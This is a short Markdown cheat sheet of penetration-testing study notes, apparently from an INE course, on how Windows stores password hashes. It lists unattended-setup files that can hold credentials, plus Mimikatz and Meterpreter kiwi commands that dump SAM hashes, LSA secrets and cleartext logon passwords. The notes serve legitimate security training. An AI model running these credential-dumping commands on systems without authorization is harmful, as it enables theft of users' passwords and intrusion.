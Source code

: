 # Windows Passwords

## Hashes

* Stored in Security Accounts Manager (SAM) database.
* Authentication and verification is facilitated by the Local Security Authority (LSA).
   * Elevated/Administrative Privileges are required to interact with LSASS process.

* Two types of hashes:
   * LM (LanMan)
      * LM is disabled from Windows Vista onwards.
   * NTLM (NTHash)
      * Modern Windows use NTLM.
      * No password salts
      * Uses MD4 Algorithm

**************************************

## Windows Configuration FIles

### Unattended Windows Setup

* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Autounattend.xml
* Config files may be base64 encoded

**************************************

## Mimikatz

* Requires admin privileges to run correctly.

```
mimikatz.exe
```

Check Privileges (Need: Privilege '20' OK):
```
privilege::debug
```

Dump SAM database / hashes for all users:
```
lsadump::sam
```

Possibly dump clear text creds:
```
lsadump::secrets
```
```
sekurlsa::logonpasswords
```


## Metasploit / Meterpreter

```
load kiwi
```
Help menu:
```
?
```
Retrieve all credentials (parsed):
```
creds_all
```
Dump hashes for all users:
```
lsa_dump_sam
```
Possibly dump clear text creds:
```
lsa_dump_secrets
```


**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
